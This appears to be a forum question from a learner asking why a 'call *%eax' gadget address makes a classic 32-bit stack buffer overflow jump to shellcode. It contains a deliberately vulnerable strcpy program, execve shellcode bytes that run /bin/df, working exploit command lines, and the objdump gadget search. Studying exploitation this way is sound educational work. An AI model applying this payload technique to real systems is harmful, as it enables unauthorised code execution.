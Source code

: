 Given this C program:

    #include <stdio.h>
    #include <string.h>
    
    int main(int argc, char **argv) {
      char buf[1024];
      strcpy(buf, argv[1]);
    }

Built with:

    gcc -m32 -z execstack prog.c -o prog

Given shell code:

    EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/df')

The program is exploitable with the commands:

    ./prog $EGG$(python -c 'print "A" * 991 + "\x87\x83\x04\x08"')
    ./prog $EGG$(python -c 'print "A" * 991 + "\x0f\x84\x04\x08"')

where I got the addresses from:

    $ objdump -d prog | grep call.*eax
     8048387:	ff d0                	call   *%eax
     804840f:	ff d0                	call   *%eax

I understand the meaning of the `AAAA` paddings in the middle, I calculated the 991 based on the length of `buf` in the program and the length of `$EGG`.

What I don't understand is why any of these addresses with `call *%eax` trigger the execution of the shellcode copied to the beginning of `buf`. As far as I understand, I'm overwriting the return address with `0x8048387` (or the other one), what I don't understand is why this leads to jumping to the shellcode.

I got this far by reading [Smashing the stack for fun and profit][1]. But the article uses a different approach of guessing a relative address to jump to the shellcode. I'm puzzled by why this more simple, alternative solution works, straight without guesswork.


  [1]: http://insecure.org/stf/smashstack.html
